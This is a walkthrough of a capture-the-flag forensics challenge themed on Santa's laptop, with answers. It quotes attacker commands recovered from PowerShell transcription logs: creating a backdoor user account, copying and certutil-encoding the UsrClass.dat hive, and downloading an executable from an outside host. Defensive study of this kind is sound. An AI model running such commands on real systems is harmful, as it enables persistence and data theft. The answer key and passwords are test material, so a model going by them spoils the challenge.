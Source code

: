 # [Day 8] Special by John Hammond - Santa's Bag of Toys

## Learning Objectives

1. What are PowerShell Transcription Logs?
2. What is a Living Off The Land binary (LOLbin)?
3. What are Shellbags?

## What operating system is Santa's laptop running ("OS Name")?

Going into: `C:\Users\Administrator\Desktop\SantasLaptopLogs\PowerShell_transcript.LAPTOP._s3k_jad.20211128153510` we can find the OS Name

Answer:
```
Microsoft Windows 11 Pro
```

## What was the password set for the new "backdoor" account?

Going into `C:\Users\Administrator\Desktop\SantasLaptopLogs\PowerShell_transcript.LAPTOP.k_dg27us.20211128153538` we can find that the following command was run:

```powershell
net user s4nta grinchstolechristmas /add
```

Answer:
```
grinchstolechristmas
```

## In one of the transcription logs,  the bad actor interacts with the target under the new backdoor user account, and copies a unique file to the Desktop. Before it is copied to the Desktop, what is the full path of the original file?

Going into `C:\Users\Administrator\Desktop\SantasLaptopLogs\PowerShell_transcript.LAPTOP.Zw6PA+c4.20211128153734` we can find that the following command was run:

```powershell
copy C:\Users\santa\AppData\Local\Microsoft\Windows\UsrClass.dat .
```

Answer:
```
C:\Users\santa\AppData\Local\Microsoft\Windows\UsrClass.dat
```

## The actor uses a Living Off The Land binary (LOLbin) to encode this file, and then verifies it succeeded by viewing the output file. What is the name of this LOLbin?

Going into `C:\Users\Administrator\Desktop\SantasLaptopLogs\PowerShell_transcript.LAPTOP.Zw6PA+c4.20211128153734` we can find that the following command was run:

```powershell
certutil.exe -enconde .\UsrClass.dat santa.dat
```

Answer:
```
certutil.exe
```

## Drill down into the folders and see if you can find anything that might indicate how we could better track down what this SantaRat really is. What specific folder name clues us in that this might be publicly accessible software hosted on a code-sharing platform?

Using [CyberChef](https://gchq.github.io/CyberChef/) we can decode from Base64 the content of the fake certificate generated by certutil as seen in `C:\Users\Administrator\Desktop\SantasLaptopLogs\PowerShell_transcript.LAPTOP.Zw6PA+c4.20211128153734` \

We can now open the decrypted UsrClass.dat in [ShellBagsExplorer](https://ericzimmerman.github.io/#!index.md) by going to File > Load offline hive and look in: `SantaRat\SantaRat-main`

Answer:
```
.github
```

## Additionally, there is a unique folder named "Bag of Toys" on the Desktop! This must be where Santa prepares his collection of toys, and this is certainly sensitive data that the actor could have compromised. What is the name of the file found in this folder? 

Using [CyberChef](https://gchq.github.io/CyberChef/) we can decode from Base64 the content of the fake certificate generated by certutil as seen in `C:\Users\Administrator\Desktop\SantasLaptopLogs\PowerShell_transcript.LAPTOP.Zw6PA+c4.20211128153734` \

We can now open the decrypted UsrClass.dat in [ShellBagsExplorer](https://ericzimmerman.github.io/#!index.md) by going to File > Load offline hive and look in: `Bag of Toys`

Answer:
```
bag_of_toys.zip
```

## What is the name of the user that owns the SantaRat repository?

Going to the [repository](https://github.com/Grinchiest/SantaRat) we can find the user

Answer:
```
Grinchiest
```

## Explore the other repositories that this user owns. What is the name of the repository that seems especially pertinent to our investigation?

Going to [Grinchiest's github profile](https://github.com/Grinchiest?tab=repositories) we can find a particular repository

Answer:
```
operation-bag-of-toys
```

## Read the information presented in this repository. It seems as if the actor has, in fact, compromised and tampered with Santa's bag of toys! You can review the activity in the transcription logs. It looks as if the actor installed a special utility to collect and eventually exfiltrate the bag of toys. What is the name of the executable that installed a unique utility the actor used to collect the bag of toys?

Going into `C:\Users\Administrator\Desktop\SantasLaptopLogs\PowerShell_transcript.LAPTOP.b+XfnW7t.20211128154858` we can find that the following command was run:

```powershell
(New-Object Net.WebClient).DownloadFile("https://sam.gleske.net/uharc/uharc-cmd-install.exe", "C:\Users\s4nta\Desktop\uharc-cmd-install.exe")
```

Answer:
```
uharc-cmd-install.exe
```

## The actor looks to have removed everything from the bag of toys, and added in new things like coal, mold, worms, and more!  What are the contents of these "malicious" files (coal, mold, and all the others)?

Going into `C:\Users\Administrator\Desktop\SantasLaptopLogs\PowerShell_transcript.LAPTOP.myCoN9lB.20211128155453` we can find that the following command was run:

```powershell
echo "GRINCHMAS" > C:\Users\santa\Desktop\Bag` Of` Toys\coal
```

Answer:
```
GRINCHMAS
```

## What is the password to the original bag_of_toys.uha archive? (You do not need to perform any password-cracking or bruteforce attempts)

Going to [this commit](https://github.com/Grinchiest/operation-bag-of-toys/commit/41615462e4fdc0ceeb4ef1bec693ec3de1125ed2) we can find the password in the commit message

Answer:
```
TheGrinchiestGrinchmasOfAll
```

## How many original files were present in Santa's Bag of Toys?

Using the password found on github we can extract the original bag_of_toys.uha

Answer:
```
228
```